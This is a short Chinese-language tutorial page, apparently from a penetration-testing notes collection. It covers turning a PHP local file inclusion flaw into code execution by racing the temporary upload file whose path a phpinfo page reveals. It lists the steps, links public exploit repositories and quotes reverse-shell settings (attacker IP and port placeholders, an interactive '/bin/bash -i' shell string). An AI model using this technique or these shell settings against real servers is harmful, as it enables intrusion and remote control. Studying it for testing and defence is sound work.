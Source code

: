 LFI-With-PHPInfo-Assitance
================================

利用条件
---------------------------------
- 存在lfi漏洞
- 存在可访问phpinfo网页

利用原理
---------------------------------
- php会把post请求, 存储在临时文件中, 并在请求结束后删除临时文件
- phpinfo中会显示_FILE变量, 其中会显示临时文件路径
- 所以可以通过发送数据量大的请求, 拖延php删除临时文件的时间, 同时查看_FILE得到临时文件位置, 并使用lfi漏洞对其进行包含从而执行

利用步骤
---------------------------------
- 发送post请求到phpinfo, post的内容为一个创建shell文件的payload
- 通过有lfi漏洞的页面包含payload, payload被执行然后创建shell文件
- 通过lfi页面包含shell文件, 并传参, 从而进行利用

漏洞利用
---------------------------------
- exp：``https://github.com/twfb/LFI-With-PHPInfo-Assitance``
- 修改：``		
	|lfiphpinfo1|
- 利用
	|lfiphpinfo2|
- 其它exp
	+ ``https://github.com/VineshChauhan24/LFI-phpinfo-RCE``
	+ ``$ip = '127.0.0.1';  // CHANGE THIS``
	+ ``$port = 3333;       // CHANGE THIS``
	+ ``POST /phpinfo.php?a= -> POST /info.php?a=``
	+ ``GET /index.php?lfi= -> GET /index.php?filename=``
	+ 注意根据实际情况需要修改(若sh如何指向dash，为非交互的shell)：``$shell = 'uname -a; w; id; /bin/sh -i';->$shell = 'uname -a; w; id; /bin/bash -i';``


.. |lfiphpinfo1| image:: ../../images/lfiphpinfo1.png
.. |lfiphpinfo2| image:: ../../images/lfiphpinfo2.png
